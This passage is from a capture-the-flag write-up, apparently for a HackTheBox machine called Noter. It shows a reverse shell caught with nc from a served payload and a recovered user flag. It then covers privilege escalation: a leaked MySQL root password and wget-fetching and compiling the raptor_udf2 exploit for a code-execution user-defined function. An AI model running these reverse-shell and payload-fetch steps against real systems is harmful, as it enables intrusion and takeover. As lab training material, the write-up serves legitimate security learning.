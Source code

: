 Export the file and grab the shell.

![[Pasted image 20220523104542.png]]

```bash
➜  noter python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.160 - - [23/May/2022 10:39:35] "GET /rev.md HTTP/1.1" 200 -

➜  noter nc -lvnp 4488            
listening on [any] 4488 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.160] 50188
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=1001(svc) gid=1001(svc) groups=1001(svc)
noter
$ cat user.txt	
39482bdad8ae80f8eb950cab59f5ffc2
```

---------------

# ROOT
### Step 1
My first finding was the backup script `backup.sh`, and within we see the astirix being used. Here I spent some time looking if it was possible to exploit using *shell globbing* but to no avail. 
```bash
svc@noter:/$ ls -al /opt
total 12
drwxr-xr-x  2 root root 4096 May  2 23:05 .
drwxr-xr-x 19 root root 4096 May  2 23:05 ..
-rwxr--r--  1 root root  137 Dec 30 09:41 backup.sh
svc@noter:/$ cd opt
svc@noter:/opt$ cat backup.sh
#!/bin/bash
zip -r `echo /home/svc/ftp/admin/app_backup_$(date +%s).zip` /home/svc/app/web/* -x /home/svc/app/web/misc/node_modules/**\*
```

Instead I moved on to the MySQL database, to which we found root credentials in one of the backup files. (`root:Nildogg36`)

Download the privesc https://www.exploit-db.com/exploits/1518 and write it to file, `raptor_udf2.c`. We meet all the criterias as we can login to MySQL as root.
Create a user defined function for code execution and grab sensitive files and/or setup a reverse shell.

```bash
svc@noter:/dev/shm$ wget http://10.10.14.26/raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -c raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:/dev/shm$ ls -al
drwxrwxrwt  3 root root   120 May 23 11:39 .
drwxr-xr-x 20 root root  4040 May 23 10:46 ..
drwx------  4 root root    80 May 23 10:46 multipath
-rw-r--r--  1 svc  svc   4920 May 23 11:39 raptor_udf2.c
-rw-r--r--  1 svc  svc   7432 May 23 11:39 raptor_udf2.o
-rwxr-xr-x  1 svc  svc  19360 May 23 11:39 raptor_udf2.so

svc@noter:~/app/web$ mysql --user=root -p --host localhost
Enter password: Nildogg36


MariaDB [(none)]> use mysql;
MariaDB [mysql]> show variables like '%plugin%';
```